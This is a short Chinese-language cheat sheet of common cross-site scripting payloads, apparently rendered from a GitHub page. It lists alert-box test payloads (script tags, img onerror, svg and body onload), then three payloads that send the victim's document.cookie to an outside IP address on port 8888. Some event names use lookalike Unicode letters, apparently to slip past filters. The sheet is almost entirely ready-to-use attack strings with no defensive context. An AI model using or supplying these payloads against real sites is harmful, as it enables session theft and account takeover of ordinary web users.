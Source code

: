 常用的xsspayload

```
<script>alert(1)</script>
```

```
"><script>alert(1)</script><"
```

```
<img src=# onerror=alert(1)>
```

```
<svg onload=alert(1)>
```

```
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

```
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

上传到服务器

```
<script>document.location.href="http://150.158.146.137:8888?cookie="+document.cookie</script>
```

```
<img src="" οnerrοr=location.href="http://150.158.146.137:8888?cookie="+document.cookie>
```

```
<body οnlοad="window.location.href='http://150.158.146.137:8888?cookie='+document.cookie"></body>
```

